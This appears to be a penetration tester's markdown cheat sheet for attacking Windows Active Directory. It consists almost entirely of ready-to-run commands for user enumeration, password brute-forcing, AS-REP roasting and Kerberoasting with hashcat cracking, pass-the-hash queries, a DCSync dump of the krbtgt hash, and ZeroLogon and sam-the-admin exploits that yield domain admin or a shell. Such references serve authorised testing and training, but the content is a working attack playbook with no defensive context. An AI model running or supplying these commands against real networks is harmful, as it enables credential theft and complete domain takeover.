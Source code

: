 #### User enumeration

```
kerbrute -d domain.local --dc $IP userenum /usr/share/seclists/Usernames/Names/names.txt
```

#### User bruteforce password

```
kerbrute -d domain.local --dc $IP bruteuser /usr/share/seclists/Passwords/probable-v2-top12000.txt username
```

#### AS_REP Roasting

```
impacket-GetNPUsers domain.local/ -dc-ip $IP -usersfile users.txt -format hashcat -out asrep-roasting.txt
```
```
hashcat -m 18200 asrep-roasting.txt /usr/share/wordlists/rockyou.txt
```

#### Get AD Users

```
impacket-GetADUsers -hashes ':11628d378a956b8ffc7e2c54b9a59574' 'domain.com/user' -dc-ip 10.10.10.10 -all
```

#### Get users description

```
crackmapexec ldap $IP -u user -p 'Password1' --kdcHost $IP -M get-desc-users
```

#### Kerberoasting 

- Also work with machine account :)

```
impacket-GetUserSPNs -hashes ':11628d378a956b8ffc7e2c54b9a59574' 'domain.com/user' -dc-ip 10.10.10.10 -request -outputfile kerberoasting.hash
```

- Kerberoasting without domain account

```
GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
```

#### DC Sync

```
secretsdump.py 'contoso.local/Administrator@$IP' -just-dc-user krbtgt
```

#### ZeroLogon

- check CVE-2020-1472 : https://github.com/SecuraBV/CVE-2020-1472
- exploit CVE-2020-1472 : https://github.com/dirkjanm/CVE-2020-1472
```
python3 cve-2020-1472-exploit.py DCNAME $IP
```

#### SAM The Admin

exploit CVE-2021-42278 and CVE-2021-42287 : https://github.com/WazeHell/sam-the-admin
```
python3 sam_the_admin.py "domain.local\user:Password1!" -dc-ip $IP -shell
```
